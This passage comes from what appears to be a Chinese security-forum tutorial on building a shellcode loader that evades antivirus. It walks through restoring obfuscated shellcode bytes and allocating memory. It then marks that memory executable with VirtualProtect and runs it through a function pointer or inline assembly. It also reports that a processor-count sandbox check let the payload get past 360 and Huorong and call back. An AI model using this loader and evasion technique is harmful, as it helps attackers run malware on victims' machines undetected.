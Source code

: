 ```js
buf3[0] = 0xfc;
buf3[1] = 0xe8;
```

注意因为还原后的shellcode有一些字符被我们改过了，所以这里需要再改过来，也就是把`ff`改成`fc`和`ee`修改为`e8`。

### 加载shellcode到内存

后面这些就落入俗套了，就是申请块内存然后修改内存的属性为可执行，然后函数指针执行。

`char* exec = (char*)malloc(sizeof(buf));` 定义一个char\*类型的指针来指向`malloc`函数申请的内存，`malloc`函数是申请一块内存，只有一个参数，就是申请内存大小，这里用`sizeof（buf）`来计算shellcode的大小。

`CopyMemory(exec, buf3, sizeof(buf));`这个函数功能是，把shellcode复制到内存里，功能和`memcpy`函数一样，第一个参数是拷贝到哪里，第二个参数是从哪里拷贝数据(数据来源)，第三个参数是拷贝多少字节。

```js
DWORD a = 0;
VirtualProtect(exec, sizeof(buf), PAGE_EXECUTE_READWRITE, &a);
```

`DWORD a=0`用于定义一个变量，用于存放内存的原始属性，供`VirtualProtect`函数使用。

`VirtualProtect`函数是修改内存块的属性，第一个参数是从哪里修改，第二个是修改大的内存，第三个参数是要修改成什么属性`PAGE_EXECUTE_READWRITE`是可读可写可执行，最后一个参数，内存原始的属性保存的地址,也就是上面定义的变量地址。

`((char(*)())exec)();`定义了一个函数指针，来执行这块内存，函数指针其实就是一个指向函数的指针，可以通过这个指针来调用我们的函数，也可以使用内联汇编来调用这块内存。

```js
__asm
{
    call exec;
}
```

call其实就是执行这个函数，关于这个指令就不多说了。

0x04 结果
=======

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-e178807230bbffe4904a5ed5f858eb100b1415d2.png)  
360

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-99fff453aab6967a24ec3f7f58de14b0158984fc.png)

0x05 总结
=======

### 过程分析

这里来测试一下，看是哪一部分代码绕过了杀软的沙箱，我们先注释掉反沙箱的代码生成一下子，可以看到直接被火绒查出来了，这里对shellcode进行了取反操作。但还是被查杀了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-99353a3f2a8962a45de0d1b3f34786e2a65db336.png)

我们继续尝试，只判断系统运行时间看会不会被杀，可以看到依然被杀了，继续尝试判断处理器的数量，看会不会查杀，这次判断了处理器的数量就没有被杀也可以上线(这里判断处理器数量是4，现在电脑处理器数量基本上都是4或以上的吧)。
